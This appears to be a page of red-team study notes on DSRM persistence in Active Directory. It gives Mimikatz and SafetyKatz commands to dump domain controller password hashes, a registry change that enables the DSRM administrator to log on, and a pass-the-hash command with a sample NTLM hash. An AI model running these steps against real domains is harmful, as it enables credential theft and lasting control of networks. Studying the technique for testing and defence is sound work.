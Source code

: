 • Note that above would be very noisy in logs - Service creation!


####   Directory Services Restore Mode (DSRM)

• DSRM is Directory Services Restore Mode.
• There is a local administrator on every DC called "Administrator" whose
password is the DSRM password.
• DSRM password (SafeModePassword) is saved when a server is
promoted to Domain Controller and it is rarely changed.
• After altering the configuration on the DC, it is possible to pass the
NTLM hash of this user to access the DC.


Dump DSRM password (needs DA privs)

```
Invoke-Mimikatz -Command '"token::elevate"
"lsadump::sam"' -Computername us-dc
```


```
SafetyKatz.exe '"token::elevate" "lsadump::sam"'
```

Compare the Administrator hash with the Administrator hash of below
command

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -
Computername us-dc
```

```
SafetyKatz.exe '"lsadump::lsa /patch"'
```

First one is the DSRM local Administrator.

Since it is the 'local' administrator of the DC, we can pass the hash to
authenticate.

But, the Logon Behavior for the DSRM account needs to be changed
before we can use its hash

```
Enter-PSSession -Computername us-dc
New-ItemProperty
"HKLM:\System\CurrentControlSet\Control\Lsa\" -Name
"DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

Use below command to pass the hash

```
SafetyKatz.exe '"sekurlsa::pth /domain:us-dc
/user:Administrator
/ntlm:917ecdd1b4287f7051542d0241900cf0
/run:powershell.exe"'
ls \\us-dc\C$
```
